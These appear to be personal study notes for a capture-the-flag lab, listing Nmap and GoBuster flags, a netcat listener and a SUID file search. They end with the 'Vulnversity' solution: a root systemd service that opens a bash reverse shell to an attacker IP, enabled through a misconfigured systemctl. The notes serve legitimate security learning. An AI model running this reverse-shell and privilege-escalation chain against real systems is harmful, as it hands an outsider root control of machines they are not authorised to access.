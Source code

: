 # Nmap
* Used to discover hosts and services on a computer network

## Flags

### Useful
* `-sV`: Attempts to determine the version of the services running ("scan Version")
* `-p <x>` or `-p-`: Port scan for port(s) <x> or scan all ports
* `-Pn`: Disable host discovery and just scan for open ports
* `-A`: Enables OS and version detection, executes in-build scripts for further enumerations (i.e. "All")
* `-sC`: Scan with the default nmap scripts
* `-v`: Verbose mode
* `-sU`: UDP port scan
* `-sS`: TCP SYN port scan
* `-O`: Probe for operating system information

### Other
* `-n`: No DNS resolution

# GoBuster
* GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains, and virtual host names.
* Not natively installed on kali.
* Requires a wordlist

## Flags

### Useful
* `-e`: Print the full URLs in the console
* `-u`: The target URL (ex: `-u http://10.11.12.13:3333`
* `-w`: Path to the wordlist (ex `-w /usr/share/wordlists/rockyou.txt`)
* `-U` `-P`: Username and Password for Basic Auth
* `-p <x>`: Proxy to use for requests
* `-c <http cookies>`: Specify a cookie for simulating your auth

# Burp Suite
* Used burp suite to capture the post request and try many different file extensions to see which one was accepted

# Netcat
* To start a listening server: `nc -lvnp <port>`

# SUID
* SUID (set owner userId upon execution) is a permissions flag that is set by certain programs. The flag gives temporary permissions to a user to run the program.file with the permissions of the file owner
	* A food example of this is `passwd`, which needs to update the shadows file with root access
* To find files with the SUID permission: `find . -perm /4000 -print 2>/dev/null`

# Vulnversity challenge
* Required the following to find the flag:

* On Host:
```
nc -lvp 9999
```

* On remote:
```
echo '[Unit]
Description=runroot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.2.18.161/9999 0>&1"

[Install]
WantedBy=multi-user.target' > /tmp/root.service

/bin/systemctl enable /tmp/root.service
/bin/systemctl start root
```

* Tutorial: https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49
